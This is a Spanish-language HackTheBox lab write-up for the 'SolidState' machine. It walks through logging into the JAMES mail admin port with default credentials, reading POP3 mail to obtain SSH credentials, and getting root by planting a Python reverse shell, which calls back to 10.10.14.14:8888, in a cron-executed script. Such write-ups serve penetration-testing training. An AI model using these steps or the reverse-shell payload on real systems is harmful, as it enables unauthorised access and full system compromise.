

HackTheBox
Medium
Linux
JAMES
POP3
Email
Cron
Python
SolidState
JAMES Mail Admin con creds por defecto; lectura de emails POP3 para obtener SSH creds; escalada via cron Python.
cat4clysm
Herramientas utilizadas
nmap
telnet
netcat
Scanning
root@kali:~$
nmap -sC -sV -p 25,22,4555,110,119,80 -Pn -n 10.10.10.51 -oN targeted
Puerto 4555 - JAMES Admin
JAMES Remote Administration Tool con credenciales por defecto root:root:
root@kali:~$
telnet 10.10.10.51 4555
# Login: root / Password: root
listusers
setpassword mindy mindyReseteamos la contrasena de mindy y leemos sus emails via POP3:
Puerto 110 - POP3 - Credenciales SSH
root@kali:~$
telnet 10.10.10.51 110
user mindy
pass mindy
list
retr 2username: mindy
pass: P@55W0rd1!2@ssh mindy@10.10.10.51
cat /home/mindy/user.txtEscalada - Cron + tmp.py
Usando procmon.sh identificamos que /opt/tmp.py se ejecuta periodicamente como root:
# Editamos /opt/tmp.py con reverse shell:
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.14",8888))
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])nc -lvp 8888
cat /root/root.txtLecciones aprendidas
- JAMES Mail Server tiene credenciales por defecto (root:root) en el puerto de administracion.
- Los emails internos frecuentemente contienen credenciales de acceso para nuevos empleados.
- Los scripts Python en /opt ejecutados por cron como root son vectores clasicos de escalada.